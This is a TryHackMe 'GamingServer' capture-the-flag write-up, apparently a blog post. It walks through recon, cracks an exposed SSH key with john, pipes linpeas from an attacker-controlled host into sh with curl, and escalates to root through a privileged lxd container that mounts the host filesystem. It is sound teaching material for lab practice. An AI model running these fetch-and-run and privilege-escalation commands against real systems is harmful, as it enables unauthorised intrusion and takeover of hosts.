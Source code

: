 ```yaml
---
title: TryHackMe - GamingServer
layout: post
categories:
- TryHackMe
tag:
- lxd,
- ssh2john,
- security
image: "/assets/img/gamingserver.jpeg"
image_alt: gamingserver
---
```


An Easy Boot2Root box for beginners. Let's start.

<br>

## 1. Gaming Server

Can you gain access to this gaming server built by amateurs with no experience of web development and take advantage of the deployment system.

<br>

### 1.1 What is the user flag?

Let's do a nmap scan first.

```
$ nmap -sSCV 10.10.80.114
```

![nmap](/assets/img/tryhackme/gamingserver/nmap.png)

Two ports are open. These are **`22/tcp SSH, and 80/tcp HTTP`**. 
But first, let's check the website running on port 80. 
Here is a page like this.

![home](/assets/img/tryhackme/gamingserver/home.png)

I've been browsing through other links on the site but haven't found anything remarkable. Let's take a look at the source of the page.

![source](/assets/img/tryhackme/gamingserver/source.png)

We found a name here, maybe we can use it for ssh.

We don't have anything else. Let's run a gobuster scan and see what we can find.

```
$ gobuster dir -u http://10.10.225.113  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
```

![gobuster](/assets/img/tryhackme/gamingserver/gobuster.png)

We discovered two directories. Let's see what we can find in these directories.

First I go to the /uploads/ directory.

![uploads](/assets/img/tryhackme/gamingserver/uploads.png)

As you can see, there are 3 files.

dict.lst : It looks like a password list. We can try ssh brute force for John.
  
  - ![dict](/assets/img/tryhackme/gamingserver/dict.png)

Manifesto.txt : Something like a poem or song. Nothing noteworthy.

  - ![manifesto](/assets/img/tryhackme/gamingserver/manifesto.png)

meme.jpg :  :D

  - ![meme](/assets/img/tryhackme/gamingserver/meme.png)

Now let's go to the /secret/ directory and check it out.

![secret](/assets/img/tryhackme/gamingserver/secret.png)

We found a secretKey file, let's see what it says.

![rsa](/assets/img/tryhackme/gamingserver/rsa.png)

Hah, we probably found the RSA key file for john 
We can crack this RSA key and enter ssh with the password we reach.

First, let's copy the secretKey and create the id_rsa file.

![pass](/assets/img/tryhackme/gamingserver/pass.png)

```
$ nano id_rsa
$ ssh2john id_rsa > id_rsa.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

**`Password: *****`**

Now we can log in to ssh.

```
$ chmod 600 id_rsa
$ ssh -i id_rsa john@10.10.225.113
```

![in](/assets/img/tryhackme/gamingserver/in.png)

Now we can get to the user flag.

![user-flag](/assets/img/tryhackme/gamingserver/user-flag.png)

<br>

### 1.2 Root.txt

I'm scanning the system with [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/tag/20230319) to upgrade privileges. 

First, I run the following code in the directory where linpeas.sh is located on my own machine.

```
$ sudo python -m http.server 80
```

Then I run the following code on the target machine.

```
$ curl 10.8.86.168/linpeas.sh | sh
```

![run](/assets/img/tryhackme/gamingserver/run.png)

And it worked. Now we're waiting to see if we can find anything useful.

![linpeas](/assets/img/tryhackme/gamingserver/linpeas.png)

I think we found something about lxd. I don't know if I can upgrade authorization using this. So I started researching.  

Yes, I found a way to escalate, let's do it.

```
$ git clone https://github.com/saghul/lxd-alpine-builder
$ cd lxd-alpine-builder
$ ./build-alpine 
```

![alpine](/assets/img/tryhackme/gamingserver/alpine.png)

After building, we need to send one of the `*.tar.gz` files created on our machine to the target machine.

![tar](/assets/img/tryhackme/gamingserver/tar.png)

For this, I run the following code on my own machine.

```
$ python -m http.server 80
```

This code on the target machine:

```
$ wget http://10.8.86.168/alpine-v3.13-x86_64-20210218_0139.tar.gz
```

Then we continue on the target machine.

```
$ lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage
$ lxd init # hepsine enter tıklayıp geç.
$ lxc init myimage mycontainer -c security.privileged=true
$ lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true 
$ lxc start mycontainer
$ lxc exec mycontainer /bin/sh
```

![privesc](/assets/img/tryhackme/gamingserver/privesc.png)

We can get to the root flag.

```
$ find / -type f -name root.txt 2>/dev/null
$ cat /mnt/root/rot/root.txt
```

![root-flag](/assets/img/tryhackme/gamingserver/root-flag.png)


<br>

---

<br>

It was such a fun CTF. I hope you learned something and had fun too. But that’s it for now till next time take care.

<br>
